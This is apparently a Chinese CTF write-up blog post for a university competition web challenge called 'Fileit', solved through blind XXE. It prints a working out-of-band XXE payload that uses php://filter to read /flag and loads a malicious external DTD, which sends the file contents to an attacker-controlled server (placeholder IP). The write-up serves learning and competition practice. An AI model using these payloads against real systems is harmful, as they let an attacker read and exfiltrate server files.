




+++
title = '全国高校运维大赛web Fileit Wp'
date = 2024-05-07T17:37:34+08:00
draft = false
image = "/cover/cover8.webp"
categories = [
    "CTF"
]

tags = [
    "CTF",
    "XXE"
]
+++
打开题目发现是一个毫无功能的界面，但是在源码中发现

存在一段解析xml的注释，合理猜测存在XXE漏洞

先抓个包分析一下


发现可以传输xml格式的数据，将请求改为post并使用dnslog判断靶机是否能出网。
发现出网成功，但是毫无回显。很明显xml数据被解析并且执行了，所以是一个无回显的xxe漏洞。



所以攻击思路很明确了。
1. 使用php://filter读取flag
2. 引入外部恶意实体
3. 将读取信息发送回外部服务器

尝试传入以下xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE updateProfile [
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
    <!ENTITY % dtd SYSTEM "http://xxx.xxx.xxx.xxx:端口号/evil.dtd">  <!--将端口号和ip换成自己的-->
    %dtd;
    %send;
]>

```

在自己的服务器上创建恶意dtd
```xml
<!ENTITY % all
   "<!ENTITY &#x25; send SYSTEM 'http://xxx.xxx.xxx/?data=%file;'>" <!--将端口号和ip换成自己的-->
>
%all;
```

开启端口监听，然后发送数据包，拿到以base64加密的flag
